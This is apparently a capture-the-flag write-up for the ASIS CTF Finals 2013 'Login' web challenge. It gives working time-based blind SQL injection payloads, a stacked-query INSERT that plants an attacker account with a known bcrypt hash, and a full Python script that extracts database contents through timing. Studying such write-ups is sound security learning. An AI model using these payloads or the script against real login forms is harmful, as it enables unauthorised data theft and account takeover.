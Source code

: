 ```yaml
---
layout: post
title: "ASIS CTF Finals 2013 Login"
description: ""
category: writeup
tags: [ASIS CTF Finals 2013, web]
---
```

{% include JB/setup %}

Description

	Login
	
	Points	350		Level	1	Solves	5
	
	Description
	78.38.193.187
	
	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG


All you can see is a login form, it always has some SQL injection problem.

After a lot of testing, finally we find a time-based blind injection in the username.

Using
	
	1' AND BENCHMARK(5000000,MD5(0x123)) AND ''='
	
then we start to using sqlmap to deal with it, but it is too slow and show some mistakes.

One of my friend write a python script to solve it, then we find some useful infomation. There are three database:

	information_schema
	sqli_db
	test
	
Obviously, sqli_db is suspicious, let's see what it has.

	users
	
It only has a table named users.

	user_id
	user_name
	user_email
	user_password_hash
	
At the beginning, we trying to fetch some data from it, but it is empty, some time later, we fetch a string from user_password_hash.

	$2y$10$gyI0vxnE3ZncmdLNGVmwTew/aPwBZPY4cEMCRENAjN4?0l8iu9O5R6iW

Just google "$2y$10", we find it is the head of PHP blowfish hash, but it seems that there is no way to get the original value from it.

At that time, the admin give a hint on this problem:

	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
	
At the same time, we find that the table users suddenly become empty. It inspire us to try INSERT.

	';insert into users values (333,'hqd','1','1@1.com');select '

And it works!

Then it is so easy, just INSERT the correct hash value of a password u know it before, there is a php script can to do this.

	';insert into users values (333,'hqd','$2y$10$YTNlM2RiNmFiODgzZGM2YuYqP7NHnuZ31TyucetPJkODqia/XH5KC','1@1.com');select '
	
	#this is the blowfish hash value of 'admin'
	
Then just login use username:hqd and password:admin, then here is the flag.

	ASIS_9689926853009CAAD5BF824863077DC9

And taste the flavor of the first blood.

f.py

{% highlight python linenos%}
from httplib import HTTPConnection

HTTPConnection._http_vsn_str = 'HTTP/1.0'

def post_payload( payload ):
	conn = HTTPConnection( '78.38.193.187' )
	conn.putrequest( 'POST', '/', skip_accept_encoding=True, skip_host=True )
	conn.putheader( 'Content-Type', 'application/x-www-form-urlencoded' )
	conn.putheader( 'Content-Length', str(len(payload)) )
	conn.endheaders( message_body=payload )
	resp = conn.getresponse()
	resp.read()

from urllib import urlencode
from time import time

def get_bool( expression ):
	start = time()
	post_payload( urlencode( dict(
		login = '',
		user_password = ' ',
		user_name = "'OR if(%s,benchmark(1500000,md5(0)),0) AND''='" % expression,
	) ) )
	end = time()
	print 'Time:', end-start
	return end-start>0.95

def get_bit( expression ):
	return '1' if get_bool( expression ) else '0'

from itertools import count

def get_string( expression ):
	result = ''
	for i in count( start=1 ):
		char = ''
		for j in range(8)[::-1]:
			print 'Byte %d, Bit %d,' % (i,j),
			bit = get_bit( 'ascii(substr(%s,%d,1))>>%d&1' % ( expression, i, j ) )
			print bit
			char += bit
		char = int( char, 2 )
		if char == 0: break
		result += chr(char)
	return result

# def get_query( expression ):
	

# print get_string( 'database()' )
print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x73716c695f6462 LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=\'information_shema\' LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(COLUMN_NAME AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=\'users\' LIMIT 5,1)' )
# print get_string( '(SELECT CAST(COUNT(*) AS CHAR) FROM users)' )
# print get_string( '@@datadir' )
# print get_string( 'user()' )
# print get_string( 'version()' )


{% endhighlight %} 


a.php

Founded from [pastebin](http://http://pastebin.com/y9GKtx0b)

{% highlight php linenos%}

<?php
// demo = $2y$10$Zjk5YzQ4ZTlhMzNlNTUzMO3Wnm1FqXmAb6/4DmyptNGoEdWGLwls.
       
function password_encrypt($password) {
  $hash_format = "$2y$10$";   // Tells PHP to use Blowfish with a "cost" of 10
  $salt_length = 22;                    // Blowfish salts should be 22-characters or more
  $salt = generate_salt($salt_length);
  $format_and_salt = $hash_format . $salt;
  $hash = crypt($password, $format_and_salt);
    return $hash;
}
 
function generate_salt($length) {
  // Not 100% unique, not 100% random, but good enough for a salt
  // MD5 returns 32 characters
  $unique_random_string = md5(uniqid(mt_rand(), true));
    // Valid characters for a salt are [a-zA-Z0-9./]
  $base64_string = base64_encode($unique_random_string);
    // But not '+' which is valid in base64 encoding
  $modified_base64_string = str_replace('+', '.', $base64_string);
    // Truncate string to the correct length
  $salt = substr($modified_base64_string, 0, $length);
    return $salt;
}
 
function password_check($password, $existing_hash) {
    // existing hash contains format and salt at start
  $hash = crypt($password, $existing_hash);
  if ($hash === $existing_hash) {
    return true;
  } else {
    return false;
  }
}

echo password_encrypt('admin');
?>

{% endhighlight %} 